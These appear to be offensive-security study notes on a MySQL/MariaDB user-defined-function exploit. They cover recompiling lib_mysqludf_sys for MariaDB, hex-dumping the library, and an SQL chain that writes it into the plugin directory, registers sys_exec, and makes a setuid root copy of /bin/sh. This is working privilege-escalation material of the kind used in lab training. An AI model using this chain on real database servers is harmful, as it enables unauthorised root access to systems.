 ```bash
LIBDIR=/usr/lib
install:
 gcc -Wall -I/usr/include/mysql -I. -shared lib_mysqludf_sys.c -o $(LIBDIR)/lib
_mysqludf_sys.so
```

-    Specifically we need to adjust the include directory path for the gcc command since we have a MariaDB **installation on our Kali system and not a MySQL one.** 

-    The changes to the Makefile are shown in Listing

```bash
kali@kali:~/lib_mysqludf_sys$ </span>cat Makefile</span>
LIBDIR=/usr/lib
install:
 gcc -Wall -I/usr/include/mariadb/server -I/usr/include/mariadb/ -I/usr/include
/mariadb/server/private -I. -shared lib_mysqludf_sys.c -o lib_mysqludf_sys.so

kali@kali:~/lib_mysqludf_sys$ make
gcc -Wall -I/usr/include/mariadb/server -I/usr/include/mariadb/ -I/usr/include/mariadb
/server/private -I. -shared lib_mysqludf_sys.c -o lib_mysqludf_sys.so
```

-    The** -Wall flag enables all of gcc’s warning messages and -I includes the directory of header files.**

-    The list included in the command found in Listing 914 are common locations for header files forMariaDB. 

-    The **-shared flag tells gcc this is a shared library and to generate a shared object file**.

-    Finally, **-o tells gcc where to output the file**.

-    Recalling the **SQL commands from the UDF exploit,** to **transfer the shared library to the target database server, we will need the file as a hexdump**

```bash
select @@plugin_dir
select binary 0xshellcode into dumpfile @@plugin_dir;
create function sys_exec returns int soname udf_filename;
select * from mysql.func where name='sys_exec' \G
select sys_exec('cp /bin/sh /tmp/; chown root:root /tmp/sh; chmod +s /tmp/sh')
```

-    To do so we can use the following command:

```bash
kali@kali:~/lib_mysqludf_sys$ xxd -p lib_mysqludf_sys.so | tr -d '\n' > lib_mysqludf_s
ys.so.hex
```

-    The** xxd command is used to make the hexdump **and the ** -p flag outputs a plain hexdump,** whichmakes it easier for further manipulation. 

-    We use **tr to delete the new line character and then dump the contents of the output to a file named lib\_mysqludf\_sys.so.hex.**

   - The contents of the lib\_mysqludf\_sys.so.hex file is what we will use for shellcode.  
  